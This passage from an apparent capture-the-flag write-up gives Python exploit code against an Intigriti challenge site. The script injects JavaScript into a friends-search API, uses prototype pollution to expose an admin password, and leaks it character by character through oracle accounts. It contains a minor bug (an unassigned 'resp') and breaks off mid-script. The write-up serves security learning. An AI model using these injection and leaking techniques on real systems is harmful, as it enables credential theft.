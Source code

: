 ``` py
ans = [' '] * length
with concurrent.futures.ThreadPoolExecutor(max_workers=15) as executor:
    futures = {executor.submit(leak_char, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        ans[index] = data
        print("".join(ans))

print(f"time: {time.time() - start}s, {req_count} requests")
```

If you look at the code carefully, you will find that we can reuse the `account_oracle_` session instead of creating a new one, so it's 105 - 10 = 95 requests now, finally reach our goal!

I also refactored the JS part to make it more clear and readable. 

``` py
import requests
import json
import concurrent.futures
import string
import time

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='

SKIP_CREATE_ORACLE = 0
MAX_WORKERS = 15
charset = string.digits
req_count = 0
stored_session = []

def create_oracle(c):
  global req_count
  global stored_session
  session = requests.session()
  session.post(LOGIN_URL, data={
    "username": "account_oracle_" + c,
    "password": "account_oracle_" + c,
  })
  stored_session.append({
    "session": session,
    "name": "account_oracle_" + c
  })
  req_count+=1
  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)

def leak_char(index):
  # leak 10a + b + 27 = ascii
  global req_count
  global stored_session
  js_code = """
  if (this.username == "PinkDraconian"){
    this.__proto__.flag = this.password;
  } else if (this.flag) {
    if (CONDITION) {
      return this.username == "account_oracle_" + Math.floor((this.flag.charCodeAt(INDEX) - 27) / 10)
    }
```